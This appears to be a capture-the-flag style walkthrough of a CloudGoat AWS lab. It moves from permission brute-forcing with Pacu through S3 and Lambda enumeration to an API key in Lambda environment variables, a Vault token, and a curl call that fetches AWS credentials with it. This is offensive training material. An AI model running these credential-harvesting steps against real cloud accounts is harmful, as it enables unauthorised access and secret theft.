 
## Initial Access

Configure our credentials:

```bash
aws configure —profile cloud
```

## Enumerating Base Credentials

From here we want to enumerate our permissions on our account.

Unfortunately, we don’t have permissions to list all permissions — however, utilizing Pacu we can brute-force permissions and see we can do the following:

```bash
"lambda:ListFunctions",
"dynamodb:DescribeEndpoints",
"sts:GetSessionToken",
"sts:GetCallerIdentity",
"s3:ListBuckets"
```

### ✅ **Current Permissions Summary**

| Permission | Description |
| --- | --- |
| `lambda:ListFunctions` | List all deployed Lambda functions — you may discover code or ARNs to exploit. |
| `dynamodb:DescribeEndpoints` | Not too helpful on its own — likely irrelevant here. |
| `sts:GetSessionToken` | Useful to request temporary credentials (probably later in the chain). |
| `sts:GetCallerIdentity` | Identify who you are (e.g., ARN, Account ID, User ID). |
| `s3:ListBuckets` | List the names of all S3 buckets — doesn't give contents yet. |

## Enumerating Buckets

Since we have list bucket permissions — let’s list them and see if we find anything:

```bash
Found bucket "cg-secrets-bucket-..."
Found bucket "elasticbeanstalk-us-east-1-..."
```

## Enumerating Lambda

We find an API key and some roles:

- API Key: `DavidsDelightfulDonuts2023`
- Role: `lambda_execution_role-...`

```json
"FunctionName": "cloudgoat-secrets-lambda-...",
"Environment": {
  "Variables": {
    "API_KEY": "DavidsDelightfulDonuts2023"
  }
}
```

## Summary of Current Findings

### ✅ Lambda Function
- Env var: API Key found
- Role used by function noted

### ✅ S3 Buckets
- One secrets-related
- One possibly used by Elastic Beanstalk

## Invoke Lambda Functions

```bash
aws lambda invoke --function-name cloudgoat-secrets-lambda-... response.json --region us-east-1 --profile cloud
```

Check the output:

```bash
cat response.json
{"errorMessage": "Unable to import module 'lambda_function': No module named 'lambda_function'"}
```

## S3 Enumeration

```bash
aws s3 ls s3://cg-secrets-bucket-.../nates_web_app_url.txt --profile cloud --region us-east-1
aws s3 cp s3://cg-secrets-bucket-.../nates_web_app_url.txt . --profile cloud --region us-east-1
cat nates_web_app_url.txt
http://3.239.102.94:8080
```

## Exploring the Webpage

A form for an API key is found. Using the API key returns a Vault Token:

- Vault Token: `TorysTotallyTubular456`

## What’s a Vault Token?

A Vault token is a temporary authentication credential used to access secrets in HashiCorp Vault.

Example API call:

```bash
curl -H "X-Vault-Token: TorysTotallyTubular456" http://<vault-server>:8200/v1/secret/data/aws-creds
```

Confirmed that this is a HashiCorp Vault endpoint — useful for understanding the flow.

---

Let me know if you want help enumerating Vault secrets or escalating privileges.

